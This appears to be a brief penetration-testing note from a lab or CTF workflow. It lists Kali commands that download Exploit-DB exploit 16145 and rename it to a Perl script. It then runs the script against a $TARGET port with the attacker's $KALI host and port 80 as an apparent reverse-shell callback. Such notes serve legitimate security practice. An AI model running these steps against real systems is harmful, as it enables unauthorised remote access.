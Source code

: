 ```yaml
---
category: Uncategorized
tags: []
---
```

```bash - klai
wget https://www.exploit-db.com/exploits/16145
```

```bash - kali
mv 16145 16145.pl
```

![[rlwrap]]

```bash - kali
perl 16145.pl $TARGET 7778 $KALI 80
```

